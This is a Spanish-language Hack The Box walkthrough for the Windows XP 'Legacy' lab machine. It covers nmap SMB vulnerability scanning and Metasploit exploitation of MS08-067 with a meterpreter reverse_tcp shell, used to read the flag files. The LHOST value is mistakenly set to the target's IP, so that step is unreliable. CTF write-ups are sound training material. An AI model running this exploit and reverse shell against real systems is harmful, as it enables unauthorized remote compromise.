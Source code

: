 ```yaml
---
{"-publish":true,"permalink":"/hack-the-box/machines/easy/legacy/","PassFrontmatter":true}
---
```


Empezamos haciendo un nmap a la maquina:

```
nmap -sCV -T5 10.10.10.4 -oN legacy_machine
```

![[Pasted image 20250522172723.png\|Pasted image 20250522172723.png]]

Observamos que la maquina es un windows XP lo cual puede indicar que quiza es vulnerable a SMB, enumeramos:

```
nmap -p 445 --script smb-vuln* 10.10.10.4
```

![[Pasted image 20250522173331.png\|Pasted image 20250522173331.png]]

Notamos que es vulnerable a CVE:CVE-2017-0143 ->EternalBlue y > **MS08-067: Microsoft Windows Server Service Vulnerability**

Descripcion: Esta vulnerabilidad critica del servicio de red de Windows (Server Service) que permite ejecucion remota de codigo (RCE) mediante paquetes especialmente creados enviados a traves del puerto 139 o 445 (SMB).

## Sistemas afectados:

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008 (versiones antiguas)
- Windows 2000

## Impacto

- Permite ejecucion remoda de codigo sin autenticacion.
- Fue ampliamente explotada por gusanos como Conficker.

Vamos a probar explotar esta vulnerabilidad con metasploit:

## Explotacion con Metasploit:

- use exploit/windows/smb/ms08_067_netapi
- set RHOST 10.10.10.4
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.4
- run

![[Pasted image 20250522174921.png\|Pasted image 20250522174921.png]]

Si queremos saber bajo que usuario se ejecuta el exploit potemos colocar en el **meterpreter> getuid**

![[Pasted image 20250522175033.png\|Pasted image 20250522175033.png]]
Luego colocar un shell para ser mas interactivos y buscamos el user.txt y el root.txt

En este caso como estamos en Windows XP, los usuarios los encontramos en **dir C:\\Documents and Settings**

![[Pasted image 20250522175409.png\|Pasted image 20250522175409.png]]

Vamos a john para el user.txt:

![[Pasted image 20250522175504.png\|Pasted image 20250522175504.png]]

Vamos a administrator para el root.txt:

![[Pasted image 20250522175546.png\|Pasted image 20250522175546.png]]

thanks.